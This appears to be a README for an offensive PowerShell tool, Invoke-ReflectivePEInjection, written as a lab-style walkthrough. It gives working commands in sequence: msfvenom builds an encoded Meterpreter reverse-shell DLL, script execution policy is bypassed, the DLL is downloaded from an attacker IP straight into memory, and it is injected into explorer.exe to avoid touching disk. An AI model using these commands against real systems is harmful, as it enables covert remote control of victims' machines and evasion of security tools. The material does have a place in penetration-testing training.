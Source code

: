 # Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# How to use
1. Create a DLL payload using msfvenom and upload it to the target machine:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```


2. To use _Invoke-ReflectivePEInjection_, we must first upload the script to the target machine and import it from its location with `Import-Module`:
```powershell
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```


3. Next we will load the DLL into a byte array and retrieve the explorer process ID and :
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.191/met.dll')
$procid = (Get-Process -Name explorer).Id
```


4. Finally, supply the byte array (`-PEBytes`) and process ID (`-ProcId`) and execute the script:
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
